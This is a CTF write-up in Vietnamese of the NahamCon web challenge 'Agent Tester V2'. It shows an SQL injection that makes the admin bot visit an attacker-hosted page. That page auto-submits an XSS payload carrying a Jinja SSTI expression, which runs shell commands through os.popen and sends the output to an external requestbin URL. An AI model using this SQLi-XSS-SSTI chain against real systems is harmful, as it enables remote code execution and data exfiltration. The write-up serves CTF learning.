 Agent Tester V2
===
**Category:** Web

**Author:** @jorgectf#3896

**Point:** 498 (37 solves)

### Description
- The new developer we hired did a bad job and we got pwned. We hired someone else to fix the issue.
- Source: `src.zip`

### Overview
- Ở bài này thì chương trình giống như bài V1 nên vì vậy chúng ta đều có thể SQli và SSTI. Nhưng khi mình dump ra password của admin thì pass của admin đã bị hash vì vậy chúng ta không thể đăng nhập bằng admin để xác minh SessionID => SSTI

### Solution
- Khi đọc lại code và phát hiện đoạn code này 
```py
subprocess.Popen(["node", "browser/browser.js", url, uAgent])

	ws.send("Testing User-Agent: " + uAgent + " in url: " + url)
	return
```
Có vẻ như ở đây có bot và chúng ta có thể SQl injection và request tới URL của mình send lên (XSS)
- Mình thử request thông qua sqli như này ```' union select "a","http://requestbin.net/r/8bejwquz"; -- -``` và sau một thời gian chờ khá lâu thì thấy request tới (có thể do bot sleep lâu)
- Và sau khi hỏi sư phụ của mình thì mình biết được là nếu như mấy bài xss được thì thường là bot sẽ cookie của admin. Vì vậy mình có thể sqli để xss xác minh được `SessionID` và sau đó ssti như bài V1

###### Payload
```js
<form id="form" method="POST" action="http://challenge.nahamcon.com:32047/debug?cmd=echo%20$CHALLENGE_FLAG">
  <input name="code" value="<input id=result value=&quot;{% for x in ().__class__.__base__.__subclasses__() %}{% if 'warning' in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.cmd).read()}}{%endif%}{%endfor%}&quot;></iframe>
<script>
location = 'http://requestbin.net/r/8bejwquz/?'+btoa(result.value)
</script>">
</form>
<script>
form.submit()
</script>
```
- Đầu tiên ta lưu payload trên vô một file đó là `payload.html` sau đó chúng host file đó ở trên local của máy chúng ta và sử dụng ngrok để "phơi" ip của mình ra ngoài internet để bot có thể visit vào.
- Cuối cùng input payload `' union select "a"," http://199eda03fa4d.ngrok.io"; -- -`
- Chờ khá lâu thì nhận được flag trả về ở requestbin